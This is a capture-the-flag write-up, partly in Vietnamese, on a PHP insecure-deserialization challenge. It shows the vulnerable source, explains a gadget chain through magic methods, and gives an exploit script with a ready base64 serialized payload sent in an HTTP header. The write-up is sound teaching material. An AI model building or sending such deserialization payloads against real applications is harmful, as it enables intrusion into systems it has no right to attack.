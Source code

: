 # Insecure deserialization

## Source

```
<?php
$printflag = false;

class X {
    function __construct($cleanup) {
        if ($cleanup === "flag") {
            die("NO!\n");
        }
        $this->cleanup = $cleanup;
    }

    function __toString() {
        return $this->cleanup;
    }

    function __destruct() {
        global $printflag;
        if ($this->cleanup !== "flag" && $this->cleanup !== "noflag") {
            die("No!\n");
        }
        include $this->cleanup . ".php";
        if ($printflag) {
            echo $FLAG . "\n";
        }
    }
}

class Y {
    function __wakeup() {
        echo $this->secret . "\n";
    }

    function __toString() {
        global $printflag;
        $printflag = true;
        return (new X($this->secret))->cleanup;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}
echo "ecruos? ym dnif uoy naC\n";
if (isset($_SERVER['HTTP_X_PAYLOAD'])) {
    unserialize(base64_decode($_SERVER['HTTP_X_PAYLOAD']));
}

?>
```

## Solution

Nhìn vào source code ta có thể thấy để lấy được flag :
- Cần truyền vào tham số cleanup với giá trị là flag , tuy nhiên nó sẽ bị hàm **__consturct()** chặn lại và in ra 'NO' bởi hàm die().
- Trong trường hợp vượt qua được hàm **__construct()** phía trên ta cần có printflag=true để có thể in ra flag và để gán lại giá trị true cho biến này ta cần gọi đến hàm **__toString()** trong hàm Y.

Để thỏa mãn tất cả, ý tưởng sẽ là:
- Gọi hàm **__toString()** trong func Y, để gọi được hàm này ta cần khởi tạo payload với hai func Y lồng nhau.
```
$exploit = new Y(new Y('flag'));
// O:1:"Y":1:{s:6:"secret";O:1:"Y":1:{s:6:"secret";s:4:"flag";}}  
```
Ở đây ta sẽ giả sử truyền vào func Y biến 'flag' , func Y đầu tiên sẽ gọi đến hàm **__wakeup()** , sau đó func Y lồng vào tiếp theo sẽ gọi đến hàm **__toString()** để gán $printflag=true .

- Việc tiếp theo sẽ là lồng vào func X với tham số 'flag' được truyền vào.
```
$exploit = new Y(new Y(new X('flag')));
// O:1:"Y":1:{s:6:"secret";O:1:"Y":1:{s:6:"secret";O:1:"X":1:{s:7:"cleanup";s:4:"flag";}}}
```
Việc lồng ghép này sẽ khiến hàm X gặp lỗi và gọi đến **__destruct()** mà bỏ qua hàm **__construct()** , điều này dẫn đến việc hai lệnh if được thực hiện và in ra đồng thời 'No!' và flag.

Exploit.php

```
<?php
class X{
	function __construct($cleanup){
    	$this->cleanup = $cleanup;
        }
}

class Y{
	function __construct($secret){
    	$this->secret = $secret;
    }
}
$exploit = new Y(new Y (new X('flag')));

echo base64_encode(serialize($exploit));
?>
// TzoxOiJZIjoxOntzOjY6InNlY3JldCI7TzoxOiJZIjoxOntzOjY6InNlY3JldCI7TzoxOiJYIjoxOntzOjc6ImNsZWFudXAiO3M6NDoiZmxhZyI7fX19

```

Cuối cùng ta sẽ gửi lên header X_PAYLOAD bao gồm mã base64 exploit phía trên , có nhiều cách để thực hiện công việc này ở đây mk dùng curl .

Result:

![img](img/img7.png)

Nhìn vào kết quả ta có thể thấy 'flag' in ra chứng tỏ **__wakeup()** được gọi , 'No!' và flag được in ra chứng tỏ hàm **__destruct()** được thực thi ...




